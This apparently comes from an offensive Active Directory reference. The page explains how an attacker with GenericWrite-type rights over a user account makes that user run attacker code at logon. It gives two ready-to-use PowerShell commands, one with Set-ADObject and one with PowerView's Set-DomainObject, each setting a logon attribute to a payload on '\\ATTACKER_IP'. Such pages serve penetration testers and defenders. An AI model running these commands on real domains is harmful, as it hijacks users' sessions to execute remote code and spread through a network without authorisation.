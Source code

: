# Logon script

This abuse can be carried out when controlling an object that has `WriteProperty`, `GenericWrite` or `GenericAll` over a target user.

The attacker can make the user execute a custom script at logon. This can be achieved with the Active Directory PowerShell module or with [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/) \([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module\).

```bash
# With Set-ADObject (Active Directory module)
Set-ADObject -SamAccountName 'user' -PropertyName scriptpath -PropertyValue "\\ATTACKER_IP\run_at_logon.exe"

# With Set-DomainObject (PowerView module)
Set-DomainObject testuser -Set @{'mstsinitialprogram'='\\ATTACKER_IP\run_at_logon.exe'} -Verbose
```

